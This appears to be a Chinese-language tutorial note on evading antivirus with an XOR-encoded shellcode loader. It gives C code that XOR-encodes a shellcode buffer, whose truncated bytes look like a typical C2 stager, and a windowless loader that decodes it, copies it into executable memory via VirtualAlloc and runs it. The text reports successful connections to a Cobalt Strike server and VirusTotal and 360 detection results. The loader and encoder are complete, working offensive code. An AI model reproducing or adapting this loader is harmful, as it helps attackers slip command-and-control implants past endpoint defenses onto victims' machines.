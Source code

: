 使用VS2019编译如下C代码，对shellcode进行异或编码，修改变量a的值即修改shellcode
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfa\xee\x8f\x6\x6\x6\x66\x8f...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8((volatile char*)buf + i, 6);
    }
    char* old = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译后会被Windows Defender查杀，关闭Windows Defender，能成功连接到CS

在VirusTotal上的检出率是29/67，如下图  
![image](./pic/0.png)  
提示360不能检测出来，如下图  
![image](./pic/1.png)  
但实际在一台物理机上测试发现，是能被检测的，如下图  
![image](./pic/2.png)  
![image](./pic/3.png)

